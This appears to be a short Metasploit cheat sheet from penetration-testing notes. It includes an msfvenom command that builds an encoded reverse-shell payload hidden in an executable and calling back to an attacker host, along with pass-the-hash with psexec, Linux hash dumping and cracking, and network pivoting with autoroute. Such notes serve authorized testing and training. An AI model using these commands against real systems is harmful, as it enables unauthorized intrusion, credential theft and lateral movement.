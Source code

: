 ```
msfvenom -p windows/meterpreter/reverse_tpc LHOST=<IP> LPORT=<IP> -e x86/shikata_ga_nai -i 10 -f exe -x <PATH_TO_EXECUTABLE> > <OUTPUT_FILE>
```

- Exploit suggester (post-exploitation w/session)

```
use post/multi/recon/local_exploit_suggester
```

- Get shell after getting user hash

```
use psexec
```

`set SMBPass to LM:NTLM hash`

- Dump Linux hashes then crack them all through Metasploit

	- Get a meterpreter shell on the Linux target
		- msfconsole must have been started with `service postgresql start && msfconsole`
	- Background it with `CTRL + Z`
	- `use post/linux/gather/hashdump`
		- `set SESSION <SESSION_NUMBER>`
	- `use auxiliary/analyze/crack_linux`
		- Set the correct hashing algorithm

- Nmap scan from Metasploit

```
db_nmap <REST OF NMAP AS USUAL>
```

or

`search portscan` and pick a module

- Import Nmap scan results to Metasploit

```
nmap ... -oX <FILENAME>
```

```
service postgresql start && msfconsole
```

```
db_import <FILENAME> 
```

You can then view hosts: `hosts`

and services running on each host: `services`

and vulnerabilities: `vulns`

- Scan internal target from external foothold

1. From the compromised external-facing host, drop into a shell `shell`
2. Check interfaces with `ifconfig`, one should point to another network
3. Exit the shell, and run from the Meterpreter shell `run autoroute -s <IP_FROM_INTERFACE.0/CIDR>`
	1. The IP we enter here will be the TARGET IP in the other network
4. Now, you have access to scan and exploit other targets, just background `background` the session and use any modules.
